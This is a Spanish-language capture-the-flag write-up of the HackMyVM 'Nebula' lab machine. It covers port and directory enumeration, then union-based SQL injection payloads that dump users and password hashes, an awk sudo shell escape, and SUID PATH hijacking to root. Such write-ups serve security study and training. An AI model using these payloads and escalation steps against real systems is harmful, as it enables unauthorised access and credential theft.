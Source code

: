 ```yaml
---
layout: post
title: HackMyWM - Nebula
author: c4rta
date: 2024-01-11
tags: [HackMyWM, Union-Based SQL injection, PATH Hijacking]
image: /assets/img/nebula/waifu.jpg
---
```


## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22 y 80

```ruby
nmap -sS -n -Pn -T4 --open -p- 192.168.1.81
```

 - sS: haga un TCP SYN Scan el cual hace que el destino responda con un RST si el puerto esta cerrado, o con un SYN/ACK si esta abierto, y ademas para que vaya mas rapido

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

```ruby
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Directory Fuzzing 

Haciendo uso de gobuster para enumerar directorios mediante fuerza bruta, nos encontramos con **img**, **login** y **joinus**

```ruby
gobuster dir -u http://192.168.1.81/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

```ruby
/img                  (Status: 301) [Size: 310] [--> http://192.168.1.81/img/]
/login                (Status: 301) [Size: 312] [--> http://192.168.1.81/login/]
/joinus               (Status: 301) [Size: 313] [--> http://192.168.1.81/joinus/]
```

En el recurso **/joinus**  encontramos una seria de pasos para unirnos a "Nebula Labs":

![](/assets/img/nebula/1.png)

Si hacemos click en el hipervinculo **here** nos manda a la URL: **http://192.168.1.81/joinus/application_form.pdf**

Bajando un poco nos encontraremos unas credenciales filtradas:

![](/assets/img/nebula/2.png)

Si las probamos en el login anteriormente descubierto vamos a poder iniciar sesion como admin

Al darle click en el boton **Search Centrals** nos mandara a una pagina donde podremos buscar por ID

![](/assets/img/nebula/3_000.png)

Al ver la URL generada despues de hacer una busqueda, podrimos intentar una SQLi: **http://192.168.1.81/login/search_central.php?id=2**

## Union-Based SQL injection

**SQLi:** Vulnerabilidad que consiste en la inyeccion de consultas SQL maliciosas a travez de la entrada de un usuario a una base de datos con el fin de modificar el comportamiento de la consulta final

Vamos a probar un payload: **search_central.php?id=2' or 1=1-- -** y como resultado vamos a poder ver todos los datos de la tabla actual

![](/assets/img/nebula/4.png)

Una vez que tenemos una SQLi, es importante saber el numero de columnas, en este caso, se puede deducir que es 3 (id, role, username), sin embargo, la manera de hacerlo es haciendo uso de la sentencia **order by**: ' ORDER BY 3-- -, la cual hace un ordenamiento de los datos basandose en el numero que indiquemos. Sabremos el numero de columnas correcto cuando nos muestre los datos el encontrar el numero correcto, como se observa en la URL y en la tabla

![](/assets/img/nebula/5.png)

Ahora vamos a probar una inyeccion basada en union: **search_central.php?id=2' UNION SELECT 1,2,3-- -**. Sabremos que es una inyeccion union-based cuando los datos de la segunda consulta se muestran en el resultado, en este caso se muestran los numeros 1, 2, 3

![](/assets/img/nebula/6.png)

#### Enumerar bases de datos

    information_schema: es una base de datos que contiene informacion de otras bases de datos

Para enumerar bases de datos podemos usar **information_schema.schemata** e indicarle que queremos selecionar la columna **schema_name** que contiene el nombre de las bases de datos

```ruby
search_central.php?id=2' UNION SELECT schema_name, null, null FROM information_schema.schemata-- -
```

Podemos ver la base de datos **nebuladb**

![](/assets/img/nebula/7.png)

#### Enumerar tablas

    table_name: Contiene informacion de las tablas de la base de datos que se indique en table_schema (nombre de la DB)

Para enumerar tablas usaremos el siguiente payload que selecionara la columna  **table_name** de la base de datos que se indique en **table_schema**

```ruby
search_central.php?id=1'  UNION SELECT table_name, 2, 3 FROM information_schema.tables WHERE table_schema="nebuladb"-- -
```

Podemos ver las tablas

![](/assets/img/nebula/tablas.png)

#### Enumerar columnas

    column_name: Contiene informacion de las columnas de la tabla que se indique en "table_name" de la base de datos "table_schema"

Para enumerar las columnas selecionarmos la columna **column_name** de **information_schema.columns** y le indicaremos la base de datos **nebuladb** y la tabla **users**

```ruby
search_central.php?id=1' UNION SELECT column_name, 2, 3 FROM information_schema.columns WHERE table_schema="nebuladb" AND table_name="users"-- -
```

Podemos ver las columnas **username** y **password**

![](/assets/img/nebula/8.png)

#### Dumpear datos

Para seleccionar los datos de las tablas, es comun usar **CONCAT** para no sobrepasar el numero de columnas de la tabla que esta siendo usada. Pero en este caso podemos hacerlo directamente 

```ruby
' UNION SELECT CONCAT(username, password), 2, 3 FROM nebuladb.users-- -        CONCAT
```

```ruby
' UNION SELECT username, password, 3 FROM nebuladb.users-- -            NORMAL
```

Podemos ver los usuarios y sus hashes:

![](/assets/img/nebula/10.png)

Despues de probar los usuarios y contraseñas, podemos acceder via ssh como el usuario **pmccentral** y su contraseña (esta hasheada y es md5)

## pmccentral  -> laboratoryadmin (awk abuse)

Mirando los permisos a nivel de sudoers nos podemos dar cuenta que podemos ejecutar **awk** como **laboratoryadmin**, haciendo una busqueda rapida de GTFOBins, encontramos una forma de conseguir una shell ingresando el siguiente comando

```bash
sudo -u laboratoryadmin /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

## Escalada de privilegios (PATH hijacking)

Si miramos los permisos SUID, encontraremos el  archivo **PMCEmployees**

```bash
find / -perm -u=s -type f 2>/dev/null
```

```ruby
/home/laboratoryadmin/autoScripts/PMCEmployees
```

Si entramos el directorio **autoScripts** encontraremos un archivo llamado **head** que ejecuta **bash -p**

Si usamos el comando file veremos que **PMCEmployees** es un binario de 64 bits

```ruby
PMCEmployees: setuid ELF 64-bit
```

Usando **strings ./PMCEmployees** encontramos que se este ejecutando el comando **head** desde una ruta relativa:

```ruby
head /home/pmccentral/documents/employees.txt
```
Lo cual es un gran indicio de **PATH hijacking**

1. Primero crearemos el archivo **employees.txt**
2. Despues exportaremos la ruta acual al PATH: **export PATH=/home/laboratoryadmin/autoScripts:$PATH**
3. Y por ultimo ejecutamos el binario de nuevo y seremos root

![](/assets/img/nebula/11.png)

Eso ha sido todo, gracias por leer ❤